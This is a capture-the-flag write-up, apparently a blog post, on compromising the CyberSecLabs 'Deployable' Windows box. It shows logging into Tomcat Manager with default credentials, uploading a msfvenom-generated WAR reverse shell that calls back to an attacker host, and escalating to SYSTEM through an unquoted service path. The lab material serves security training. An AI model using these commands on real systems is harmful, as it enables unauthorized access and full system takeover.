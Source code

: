 ```yaml
---
layout: page
title: Deployable - CyberSecLabs
permalink: /posts/ctf/cyberseclabs/deployable.html
---
```


# Deployable - CyberSecLabs
----


First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 172.31.1.13`

![image](https://user-images.githubusercontent.com/50459517/104624925-c3ae7300-5659-11eb-8b7a-913c4d5ae7d8.png)

Quite a few ports to look at.  First thing that I see that catches my eye is Tomcat running on port 8080.  Lets check this out and see what we find.

![image](https://user-images.githubusercontent.com/50459517/104624961-cf9a3500-5659-11eb-9ac9-d00a9418d094.png)

Looks like we have a default page with some information disclosure on the version of Tomcat running.  I looked for any vulnerabilities for Tomcat 7.0.88 and found a couple of possibilities but couldn't get them to work so I put them on the back burner.  I decided to fuzz for directories which didn't returned much but it did return a few results as we can see here.

![image](https://user-images.githubusercontent.com/50459517/104625488-68c94b80-565a-11eb-9d23-1c19f7fa95c5.png)

The manager directory looks interesting, lets check that out.

![image](https://user-images.githubusercontent.com/50459517/104625535-77affe00-565a-11eb-8073-21be0df27572.png)

We have a place to log in,  I tried a few common creds like admin:admin with no luck.  I then searched for tomcat default creds and for this list on GitHub

https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

If we go through this list, we will find that the default creds of **tomcat:s3cret** work and we are now logged into the manager.

![image](https://user-images.githubusercontent.com/50459517/104625685-a037f800-565a-11eb-8b3f-284e9334f038.png)

If we scroll down, we see a place to upload a **.war** file.  This is perfect as we should be able to upload a malicious war file that can get us a shell on the machine.  Lets generate one with **msfvenom**

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.0.11 LPORT=1337 -f war > shell.war`

![image](https://user-images.githubusercontent.com/50459517/104625723-aaf28d00-565a-11eb-95ff-5008293a690b.png)

Once we upload our file to the server we will see it under Applications

![image](https://user-images.githubusercontent.com/50459517/104625743-b3e35e80-565a-11eb-82c0-6cf2768c9978.png)

Now we just need to start a netcat listener and click on the application to execute on the server.

![image](https://user-images.githubusercontent.com/50459517/104625776-be9df380-565a-11eb-8af3-ff0a2f1c15c4.png)

We now have a shell!  Now lets see if we can escalate our privileges.

I started with transferring over **WinPEAS** to the machine and found an unquoted service path that we may be able to abuse.  We can also see that we have access to create files in a directory within the path of this service executable.

![image](https://user-images.githubusercontent.com/50459517/104625828-ce1d3c80-565a-11eb-932b-42876bb97bf2.png)

![image](https://user-images.githubusercontent.com/50459517/104625885-dbd2c200-565a-11eb-86d5-a5f7718796e2.png)

We can query more information about this service with **sc qc Deploy**

![image](https://user-images.githubusercontent.com/50459517/104625924-e5f4c080-565a-11eb-9589-ea723e0688b9.png)

As we can see, this services seems to be running with system permissions.  Since we can see from the WinPEAS output that we can write to the **C:\Program Files\Deploy Ready** directory, we should be able to create a malicious file called **Service.exe** within this directory.

![image](https://user-images.githubusercontent.com/50459517/104625955-eee59200-565a-11eb-90f9-dbc1a32094d3.png)

Now we can execute this file by starting the service with **net start Deploy** and obtain a shell as system

![image](https://user-images.githubusercontent.com/50459517/104625980-f86efa00-565a-11eb-9abb-06f105ec3143.png)
